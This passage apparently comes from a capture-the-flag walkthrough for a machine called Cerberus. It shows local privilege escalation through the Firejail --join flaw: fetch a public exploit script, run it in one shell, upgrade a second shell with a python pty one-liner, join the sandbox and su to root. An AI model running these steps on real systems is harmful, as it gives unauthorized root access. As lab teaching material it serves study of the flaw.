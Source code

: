 `Firejail` is a setuid-root command line program that allows to execute
programs in isolated sandboxes. The details of execution are controlled
by configuration files and command line switches. The isolation features
are implemented based on Linux namespace mechanisms.

Among the many features of Firejail there exists the possibility to join
an existing Firejail container setup using the `firejail --join=<pid>`
style invocation. Download [firejoin_py.py](https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py.bin) and upload into target and open another shell, execute this command below on session one to make a pid:

```python
#shell 1
python3 firejoin_py.py
```

![](/assets/img/cerberus/7.png)

with another session you can execute command below:

```bash
#shell 2

#upgrade shell with python3
python3 -c 'import pty; pty.spawn("/bin/bash")'

#then
firejail --join=21428

#then
su - 
```

![](/assets/img/cerberus/8.png)
